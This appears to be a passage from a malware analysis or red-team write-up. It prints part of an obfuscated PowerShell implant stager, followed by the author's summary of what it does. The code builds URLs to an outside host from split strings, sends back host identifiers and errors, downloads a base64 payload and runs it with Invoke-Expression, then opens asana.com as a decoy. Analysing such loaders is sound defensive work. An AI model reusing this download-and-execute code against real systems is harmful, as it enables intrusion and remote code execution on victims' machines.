 ```s
        }
        catch {

            $HcEAjXEDFgAUtMMiPwLicU = $_.Exception.Message
            $icFJZsoaoaorsrDtZWvtoFQitW = "?IhU=$($HKDoaKaxv)&HZsZsos=$($HcEAjXEDFgAUtMMiPwLicU)"
            $jmtjjvjr = "htt"+"p"+"s://"+""+"e"+"prst251.boo/223dc805-5605-4a0b-b828-cdad1b84126"+"e"+"-79d39c2c-0f10-48d1-9"+"e"+"df-c18a784"+"e"+"fba0" + "$($icFJZsoaoaorsrDtZWvtoFQitW)"
            $xsLfdudkQBktwfQQjItfw = $aTebwwaowsbbrUUTopUZpsjZ.DownloadString($jmtjjvjr)
            try {
                $NToddpkHJ = "?aklshdjahsjdh=$($Cg)&ajhsdjhasjhd=nsp&ahsdjkasjkdh=$($($HKDoaKaxv))"
                $NQdQ = "htt"+"p"+"s://"+""+"e"+""+"p"+""+"r"+""+"s"+""+"t"+""+"2"+""+"5"+""+"1"+""+"."+""+"b"+""+"o"+""+"o"+""+"/"+""+"9"+""+"7"+""+"4"+""+"a"+""+"f"+""+"a"+""+"0"+""+"a"+""+"-"+""+"d"+""+"3"+""+"3"+""+"4"+""+"-"+""+"4"+""+"8"+""+"e"+""+"c"+""+"-"+""+"a"+""+"0"+""+"d"+""+"4"+""+"-"+""+"4"+""+"c"+""+"c"+""+"1"+""+"4"+""+"e"+""+"f"+""+"a"+""+"7"+""+"3"+""+"0"+""+"c"+""+"-"+""+"1"+""+"d"+""+"3"+""+"d"+""+"0"+""+"4"+""+"4"+""+"a"+""+"-"+""+"e"+""+"6"+""+"5"+""+"4"+""+"-"+""+"4"+""+"1"+""+"e"+""+"3"+""+"-"+""+"a"+""+"d"+""+"3"+""+"2"+""+"-"+""+"3"+""+"8"+""+"a"+""+"2"+""+"9"+""+"3"+""+"4"+""+"3"+""+"9"+""+"3"+""+"e"+""+"4"+"" + "$($NToddpkHJ)"
                $xsLfdudkQBktwfQQjItfw = $aTebwwaowsbbrUUTopUZpsjZ.DownloadString($NQdQ)
                $viSrdkNrrPrYdF = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String($xsLfdudkQBktwfQQjItfw))
                Invoke-Expression $viSrdkNrrPrYdF
            }
            catch {
                $HcEAjXEDFgAUtMMiPwLicU = $_.Exception.Message
                $icFJZsoaoaorsrDtZWvtoFQitW = "?IhU=$($HKDoaKaxv)&HZsZsos=$($HcEAjXEDFgAUtMMiPwLicU)"
                $jmtjjvjr = "htt"+"p"+"s://"+""+"e"+"prst251.boo/223dc805-5605-4a0b-b828-cdad1b84126"+"e"+"-79d39c2c-0f10-48d1-9"+"e"+"df-c18a784"+"e"+"fba0" + "$($icFJZsoaoaorsrDtZWvtoFQitW)"
                $xsLfdudkQBktwfQQjItfw = $aTebwwaowsbbrUUTopUZpsjZ.DownloadString($jmtjjvjr)
            }
        }
    }
}

$JNWgNBrgNHmJNEDiBS= "htt"+"p"+"s://"+"asana.co"+"m"+"/"
Start-Process $JNWgNBrgNHmJNEDiBS

Receive-Job -Job $udGXjGVXGXbtYwiRfqjVk -Wait
```

- In summary, this is what the script is performing:

  1.  Starts as a background job and collects some system information such as the domain name, AV software present in the system and the domain name (line 2-11)
  2.  Pulls a suspicious script from a remote URL and executes it. (line 20-80)
  3.  Finally opens https://asana.com in the browser then waits for the background job to finish executing before exiting.

- This is what will contain the main logic for the implant being staged.

## Building a malicious msix for Initial Access
